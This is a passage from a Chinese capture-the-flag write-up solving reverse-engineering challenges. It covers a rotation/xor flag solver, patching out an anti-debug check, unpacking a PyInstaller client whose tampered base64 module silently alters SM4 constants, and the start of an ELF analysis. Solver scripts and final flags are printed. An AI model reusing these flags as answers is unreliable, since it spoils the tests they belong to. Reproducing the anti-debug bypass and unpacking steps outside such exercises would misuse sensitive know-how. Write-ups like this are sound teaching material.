def ror32(x, r):
    x &= MASK
    r &= 31
    return ((x >> r) | (x << (32 - r))) & MASK if r else x

def relation_key(seed, i):
    r = ((5 * i + 7) % 31) + 1
    x = (
        (((0x10203041 * i + 0x306090C3) & MASK) ^ 0x7F4A7C15)
        + ((seed & MASK) ^ ((0x9E3779B9 * (i + 1)) & MASK))
    ) & MASK
    return rol32(x, r) ^ 0xA5A5A5A5

def relation_rot(seed, i):
    x = ((seed & MASK) >> (8 * (i & 3))) + 3 * i + 5
    return (x % 31) + 1

def advance_seed(seed, b, i):
    r = ((7 * i + 11) % 31) + 1
    x = (
        0x11111111 * i
        + ((b & MASK) ^ (seed & MASK) ^ ((0x6D2B79F5 * (i + 1)) & MASK))
        + 0x3C6EF372
    ) & MASK
    return rol32(x, r)

targets = [
    0xB6EB8D51, 0x19CC68BA, 0x884F99AE,
    0x5CD4D192, 0x8F0F191C, 0x24140EA5,
    0x435BC82A, 0x0F74B9E5,
    0xB7F53142, 0x2DAA3192, 0x3FE6ADE5,
]

v = [0] * 12
v[0] = 0x63737573
seed = 0x6A09E667

for i in range(11):
    k = relation_key(seed, i)
    r = relation_rot(seed, i)
    T = targets[i]
    a = v[i]

    if i in (0, 1, 2, 8):
        b = T ^ rol32((k + a) & MASK, r)
    elif i in (3, 4, 5, 9):
        b = (T - ror32(k ^ a, r)) & MASK
    else:
        b = k ^ ((T - rol32(a, r)) & MASK)

    v[i + 1] = b & MASK

    if i < 10:
        seed = advance_seed(seed, v[i + 1], i)

flag = b''.join(x.to_bytes(4, 'little') for x in v)
print(flag.decode())

```

得到flag：

```text
susctf{Excepti0n_4rx_relat10n_ChainN_1s_fuun!!!}
```

<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>

---

### flash

> 你为啥刚出来就消失啊？！😨嘎啦Reverse里不是这样！😡你应该先多显示一会☝，然后让我慢慢看清楚。偶尔停一下☺️，让我确认屏幕上到底写了什么。最后在那个特殊时刻，把flag完整地展示给我喵😮，然后我高高兴兴地交上去喵☺️。你怎么直接闪一下就没了！😡？CTF里根本不是这样！😡我不接受！！😡😡😡

题干是 ~~嘎啦 reverse~~

颇为生动的一幕，



#### 预期解

首先检查主函数，发现必须输入 flag 或者 FLAG ，试试便知这个家伙输出一大坨闪了一下然后就不见了。

（如果眼力够好，按理来讲应该**试几次就能看清楚**flag\(?\)\)

```c
__int64 __fastcall sub_401897(int a1, int a2, int a3, int a4, int a5, int a6)
{
  size_t n; // r14
  const void *buf; // rbx
  __int64 v8; // rdx
  _DWORD v10[6]; // [rsp+0h] [rbp-38h] BYREF
  char v11; // [rsp+18h] [rbp-20h]
  _BYTE v12[25]; // [rsp+1Fh] [rbp-19h] BYREF

  if ( (unsigned __int8)sub_401694(a1, a2, a3, a4, a5, a6, v10[0], v10[2], v10[4], v11) )
    return sub_4017B8();
  sub_401C90(v10, &unk_402120, &unk_402577, v12);
  n = sub_401A34(v10);
  buf = (const void *)sub_401A90(v10);
  sub_401378(buf, n, &unk_4025A0, "REVERSE-CTF!", 1);
  write(1, "\n", 1u);
  write(1, buf, n);
  write(1, "\n", 1u);
  usleep(0x1D4C0u);
  sub_401677();
  sub_40177E(v10);
  std::operator<<<std::char_traits<char>>(&std::cout, "Too slow.\n", v8);
  return sub_401B40(v10);
}
```

显然我们可以把断点下在usleep函数，然后就会得到\.\.\.



触发了程序的反调试机制，根据1897函数的逻辑，检测反调试的点应该在if判断处，

(哎不是，这个 fake flag 很明显吧，为什么那么多师傅交这个 flag)



那啥也不说了，直接返回一个**0**就行（返回0说明未检测到调试器！别弄反了）



找到这条语句，替换为 `xor eax eax` \(注意需要等长度替换），再保存新的文件



得到flag：

```text
susctf{Sett1ng_br34kpoin7s_is5_usefUl!!}
```

<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>

#### 非预期

有点傻傻的，还以为一晃而过会看不清flag，写wp的时候才想起来可以截图zwz



还有的师傅是录屏做的（**直接给我看傻眼了** 师傅们的🧠果然比我聪明得多 awa

<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>

---

### Wrong Password

> 小明更新了一个客户端，却惊讶地发现输入原来的密码无法登录。你能帮小明找到一个能够成功通过登录验证的密码吗？
>
> Flag 格式：susctf{hex(accepted_password)}（所有字母均小写）

~~这题有点上强度~~，原题其实是今年的 XCTF-SUCTF 的 EzPython，稍微有点难度不过后来放了 hint

很有喜剧效果的是很多师傅交了 Wrong Password，还有一个师傅问我是不是 flag 有错误😊

<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>

扔进ida发现似乎有亿点点困难，函数非常多不说，也找不到main函数。

如果你有查看字符串的习惯



可以发现里面有很多python字样。

询问ai肯定可以知道这是一个pyinstaller打包的程序，需要用对应的解包工具。https://github\.com/extremecoders\-re/pyinstxtractor

```bash
python pyinstxtractor.py SUSDB.exe
```

进入解包后的文件夹，里面的pyc是字节码文件，pyd是由c程序编译生成的操作系统的动态连接库文件。

能力强的师傅推荐，使用pycdas等工具直接~~手撕千行汇编~~

由于python版本较新，使用uncompyle6,decompyle3,pycdc反编译都会出现报错。推荐使用更强大的工具——https://pylingual\.io/

首先反编译main\.pyc

```python
# Decompiled with PyLingual (https://pylingual.io)
# Internal filename: 'main.py'
# Bytecode version: 3.11a7e (3495)
# Source timestamp: 1970-01-01 00:00:00 UTC (0)

import sys
import base64
import sm4
CLIENT_VERSION = '2.7.0'
SERVER = 'db.sus.local:3306'
USERNAME = 'xiaoming'
KEY = b'SUSCTF2026REVRSE'
AUTH_B64 = b'R/SGLQRBUEcoCmOVAp6Zmg=='
def _read_password():
    data = sys.stdin.buffer.readline()
    if data.endswith(b'\r\n'):
        data = data[:(-2)]
    else:
        if data.endswith(b'\n'):
            data = data[:(-1)]
    return data
def main():
    print('==========================================')
    print(f'          SUSDB Client v{CLIENT_VERSION}')
    print('==========================================')
    print(f'Server : {SERVER}')
    print(f'Account: {USERNAME}')
    print()
    auth_token = base64.b64decode(AUTH_B64)
    print('Password: ', end='', flush=True)
    passwd = _read_password()
    if len(passwd) != 16:
        print('[!] Authentication failed: invalid password')
    else:
        token = sm4.encrypt_block(passwd, KEY)
        if token == auth_token:
            print('[+] Login successful. Welcome back, xiaoming!')
        else:
            print('[!] Authentication failed: invalid password')
if __name__ == '__main__':
    main()
```

显然删掉回车符，然后调用sm4\.encrypt\_block加密得到token，比较token和auth\_token是否相等。

于是解密即可

```python
import base64
from gmssl.sm4 import CryptSM4, SM4_DECRYPT

KEY = b"SUSCTF2026REVRSE"
AUTH_B64 = b"R/SGLQRBUEcoCmOVAp6Zmg=="

ciphertext = base64.b64decode(AUTH_B64)

crypt = CryptSM4()
crypt.set_key(KEY, SM4_DECRYPT)

# 直接进行一个 SM4 block 运算，不走 crypt_ecb() 的自动 unpadding
password = bytes(crypt.one_round(crypt.sk, list(ciphertext)))

print("password   =", repr(password))
```

于是乎验证一下

```bash
$ ./SUSDB.exe
==========================================
          SUSDB Client v2.7.0
==========================================
Server : db.sus.local:3306
Account: xiaoming

Password: xiaoming12345678
[!] Authentication failed: invalid password
```

ohno，密码错了，有可能用的不是标准SM4算法。于是把SM4\.pyc也反编译一下。

```python
# Decompiled with PyLingual (https://pylingual.io)
# Internal filename: 'sm4.py'
# Bytecode version: 3.11a7e (3495)
# Source timestamp: 1970-01-01 00:00:00 UTC (0)

SBOX = bytes.fromhex('d690e9fecce13db716b614c228fb2c052b679a762abe04c3aa441326498606999c4250f491ef987a33540b43edcfac62e4b31ca9c908e89580df94fa758f3fa64707a7fcf37317ba83593c19e6854fa8686b81b27164da8bf8eb0f4b70569d351e240e5e6358d1a225227c3b01217887d40046579fd327524c3602e7a0c4c89eeabf8ad240c738b5a3f7f2cef96115a1e0ae5da49b341a55ad933230f58cb1e31df6e22e8266ca60c02923ab0d534e6fd5db3745defd8e2f03ff6a726d6c5b518d1baf92bbddbc7f11d95c411f105ad80ac13188a5cd7bbd2d74d012b8e5b4b08969974a0c96777e65b9f109c56ec68418f07dec3adc4d2079ee5f3ed7cb3948')
FK = (2746333894, 1453994832, 1736282519, 2993693404)
CK = (462357, 472066609, 943670861, 1415275113, 1886879365, 2358483617, 2830087869, 3301692121, 3773296373, 4228057617, 404694573, 876298825, 1347903077, 1819507329, 2291111581, 2762715833, 3234320085, 3705924337, 4177462797, 337322537, 808926789, 1280531041, 1752135293, 2223739545, 2695343797, 3166948049, 3638552301, 4110090761, 269950501, 741554753, 1213159005, 1684763257)
MASK32 = 4294967295
def _rotl(x, n):
    x &= MASK32
    return (x << n | x >> 32 - n) & MASK32
def _tau(x):
    return SBOX[x >> 24 & 255] << 24 | SBOX[x >> 16 & 255] << 16 | SBOX[x >> 8 & 255] << 8 | SBOX[x & 255]
def _l_trans(x):
    return (x ^ _rotl(x, 2) ^ _rotl(x, 10) ^ _rotl(x, 18) ^ _rotl(x, 24)) & MASK32
def _l_key(x):
    return (x ^ _rotl(x, 13) ^ _rotl(x, 23)) & MASK32
def _t(x):
    return _l_trans(_tau(x))
def _t_key(x):
    return _l_key(_tau(x))
def _round_keys(key):
    if not isinstance(key, (bytes, bytearray)) or len(key) != 16:
        raise ValueError('SM4 key must be exactly 16 bytes')
    else:
        mk = [int.from_bytes(key[i:i + 4], 'big') for i in range(0, 16, 4)]
        k = [mk[i] ^ FK[i] for i in range(4)]
        rk = []
        for i in range(32):
            nxt = k[i] ^ _t_key(k[i + 1] ^ k[i + 2] ^ k[i + 3] ^ CK[i])
            nxt &= MASK32
            k.append(nxt)
            rk.append(nxt)
        return rk
def crypt_block(block, key, decrypt=False):
    if not isinstance(block, (bytes, bytearray)) or len(block) != 16:
        raise ValueError('SM4 block must be exactly 16 bytes')
    else:
        rk = _round_keys(key)
        if decrypt:
            rk = rk[::(-1)]
        x = [int.from_bytes(block[i:i + 4], 'big') for i in range(0, 16, 4)]
        for i in range(32):
            nxt = x[i] ^ _t(x[i + 1] ^ x[i + 2] ^ x[i + 3] ^ rk[i])
            x.append(nxt & MASK32)
        return b''.join((v.to_bytes(4, 'big') for v in x[(-1):(-5):(-1)]))
def encrypt_block(block, key):
    return crypt_block(block, key, decrypt=False)
def decrypt_block(block, key):
    return crypt_block(block, key, decrypt=True)
```

经过与网上源码比对，可以知道这就是标准的SM4算法。如果不相信可以写解密脚本试试

```python
import base64

KEY = b"SUSCTF2026REVRSE"
AUTH_B64 = b"R/SGLQRBUEcoCmOVAp6Zmg=="

SBOX = (
    0xd6,0x90,0xe9,0xfe,0xcc,0xe1,0x3d,0xb7,0x16,0xb6,0x14,0xc2,0x28,0xfb,0x2c,0x05,
    0x2b,0x67,0x9a,0x76,0x2a,0xbe,0x04,0xc3,0xaa,0x44,0x13,0x26,0x49,0x86,0x06,0x99,
    0x9c,0x42,0x50,0xf4,0x91,0xef,0x98,0x7a,0x33,0x54,0x0b,0x43,0xed,0xcf,0xac,0x62,
    0xe4,0xb3,0x1c,0xa9,0xc9,0x08,0xe8,0x95,0x80,0xdf,0x94,0xfa,0x75,0x8f,0x3f,0xa6,
    0x47,0x07,0xa7,0xfc,0xf3,0x73,0x17,0xba,0x83,0x59,0x3c,0x19,0xe6,0x85,0x4f,0xa8,
    0x68,0x6b,0x81,0xb2,0x71,0x64,0xda,0x8b,0xf8,0xeb,0x0f,0x4b,0x70,0x56,0x9d,0x35,
    0x1e,0x24,0x0e,0x5e,0x63,0x58,0xd1,0xa2,0x25,0x22,0x7c,0x3b,0x01,0x21,0x78,0x87,
    0xd4,0x00,0x46,0x57,0x9f,0xd3,0x27,0x52,0x4c,0x36,0x02,0xe7,0xa0,0xc4,0xc8,0x9e,
    0xea,0xbf,0x8a,0xd2,0x40,0xc7,0x38,0xb5,0xa3,0xf7,0xf2,0xce,0xf9,0x61,0x15,0xa1,
    0xe0,0xae,0x5d,0xa4,0x9b,0x34,0x1a,0x55,0xad,0x93,0x32,0x30,0xf5,0x8c,0xb1,0xe3,
    0x1d,0xf6,0xe2,0x2e,0x82,0x66,0xca,0x60,0xc0,0x29,0x23,0xab,0x0d,0x53,0x4e,0x6f,
    0xd5,0xdb,0x37,0x45,0xde,0xfd,0x8e,0x2f,0x03,0xff,0x6a,0x72,0x6d,0x6c,0x5b,0x51,
    0x8d,0x1b,0xaf,0x92,0xbb,0xdd,0xbc,0x7f,0x11,0xd9,0x5c,0x41,0x1f,0x10,0x5a,0xd8,
    0x0a,0xc1,0x31,0x88,0xa5,0xcd,0x7b,0xbd,0x2d,0x74,0xd0,0x12,0xb8,0xe5,0xb4,0xb0,
    0x89,0x69,0x97,0x4a,0x0c,0x96,0x77,0x7e,0x65,0xb9,0xf1,0x09,0xc5,0x6e,0xc6,0x84,
    0x18,0xf0,0x7d,0xec,0x3a,0xdc,0x4d,0x20,0x79,0xee,0x5f,0x3e,0xd7,0xcb,0x39,0x48
)

FK = (
    2746333894,
    1453994832,
    1736282519,
    2993693404
)

CK = (
    462357,472066609,943670861,1415275113,
    1886879365,2358483617,2830087869,3301692121,
    3773296373,4228057617,404694573,876298825,
    1347903077,1819507329,2291111581,2762715833,
    3234320085,3705924337,4177462797,337322537,
    808926789,1280531041,1752135293,2223739545,
    2695343797,3166948049,3638552301,4110090761,
    269950501,741554753,1213159005,1684763257
)

MASK32 = 0xffffffff


def rotl(x, n):
    return ((x << n) | (x >> (32 - n))) & MASK32


def tau(x):
    return (
        SBOX[(x >> 24) & 0xff] << 24 |
        SBOX[(x >> 16) & 0xff] << 16 |
        SBOX[(x >> 8) & 0xff] << 8 |
        SBOX[x & 0xff]
    )


def l_trans(x, rotations):
    y = x
    for n in rotations:
        y ^= rotl(x, n)
    return y & MASK32


def l_key(x):
    return (
        x ^
        rotl(x, 13) ^
        rotl(x, 23)
    ) & MASK32


def round_keys(key):
    mk = [
        int.from_bytes(key[i:i+4], "big")
        for i in range(0, 16, 4)
    ]

    k = [mk[i] ^ FK[i] for i in range(4)]
    rk = []

    for i in range(32):
        tmp = (
            k[i + 1] ^
            k[i + 2] ^
            k[i + 3] ^
            CK[i]
        )

        nxt = k[i] ^ l_key(tau(tmp))
        nxt &= MASK32

        k.append(nxt)
        rk.append(nxt)

    return rk


def decrypt_block(block, key, rotations):
    rk = round_keys(key)[::-1]

    x = [
        int.from_bytes(block[i:i+4], "big")
        for i in range(0, 16, 4)
    ]

    for i in range(32):
        tmp = (
            x[i + 1] ^
            x[i + 2] ^
            x[i + 3] ^
            rk[i]
        )

        nxt = x[i] ^ l_trans(tau(tmp), rotations)
        x.append(nxt & MASK32)

    return b"".join(
        v.to_bytes(4, "big")
        for v in x[-1:-5:-1]
    )


ciphertext = base64.b64decode(AUTH_B64)


original = decrypt_block(
    ciphertext,
    KEY,
    rotations=(2, 10, 18, 24)
)

print("password =", repr(original))
```

那么\.\.\.似乎能够怀疑的只剩下了`import base64`。我们只需要关注b64decode这个函数，

在最后几行我们发现了关键，

```python
_m = __import__('sys').modules.get('sm4')##sys.modules 是 Python 当前进程里已经导入过的模块表，则_m即取出来的sm4 module
    if _m is not None:##确认sm4被加载
        _f = getattr(_m, '_l_trans', None)##找 sm4 模块里的 _l_trans 函数；找不到就返回 None。
        if _f is not None:##确认找到了_l_trans函数
            _c = _f.__code__##_f.__code__是这个函数真正对应的 code object（代码对象）
            _d = {2: 3, 10: 11, 18: 19, 24: 25}##建立了一张替换表
            _f.__code__ = _c.replace(co_consts=tuple((_d.get(_v, _v) for _v in _c.co_consts)))##_c.co_consts即这个函数使用的常量表
            
'''
new_code = old_code.replace(
    co_consts=new_consts
)

最后_f.__code__ = new_code

也就是：sm4._l_trans.__code__ = new_code
'''
```

也就是说，上述代码实现了一个隐蔽的**SMC（Self\-Modified Code）**

根据上述分析，只需要把原解密脚本中的常量替换即可

```python
original = decrypt_block(
    ciphertext,
    KEY,
    rotations=(3, 11, 19, 25)
)

print("password =", original.hex())
```

得到flag:

```c++
susctf{f8447ad0c797bd1f13d8098842a392a5}
```

验证密码的方法：

```bash
python -c "import subprocess; p=subprocess.run([r'SUSDB.exe'],input=bytes.fromhex('f8447ad0c797bd1f13d8098842a392a5')+b'\n',stdout=subprocess.PIPE); print(p.stdout.decode(errors='replace'))"
```

<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>

---

### emoji

> 😀😁😂😃😄😅😆😇
>
> 😈😉😊😋😌😍😎😏

最后一战了，~~没有再用C\+\+为难大家~~  :D

<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>

首先打开ida，发现程序非常古怪

```c
__int64 __fastcall main(int a1, char **a2, char **a3)
{
  int fd_1; // eax
  int fd; // ebx

  byte_4040B0 = 0;
  fd_1 = open("/proc/self/exe", 0, a3);
  if ( fd_1 < 0 )
  {
    perror("open");
    return 2;
  }
  else
  {
    fd = fd_1;
    if ( (unsigned int)sub_401C20(fd_1, ".moj")
      && (unsigned int)sub_401C20(fd, ".oji")
      && (unsigned int)sub_401C20(fd, ".text") )
    {
      fwrite("emoji shell: bad metadata\n", 1u, 0x1Au, stderr);
      close(fd);
      return 4;
    }
    else
    {
      fwrite("emoji shell: damaged image\n", 1u, 0x1Bu, stderr);
      close(fd);
      return 3;
    }
  }
}
```

不仅打开自己，还在反复读写数据，还有一堆奇奇怪怪的return



但是实际上程序执行流很复杂，这个主函数显然反编译效果很差。同样，sub\_401C20的反编译结果也是有问题的，**进入 401BB0 函数之后触发ida重新分析**，\(疑问：此处Alt\+P的方法好像不能触发重新分析函数，有知道原因的师傅可以交流一下）再回到之前的函数就正常了。

修改一下 401C20 的原型

```c
int __fastcall sub_401C20(int fd, char *s2, unsigned __int128 *a3);
```

注意到反复出现的fd，memfd





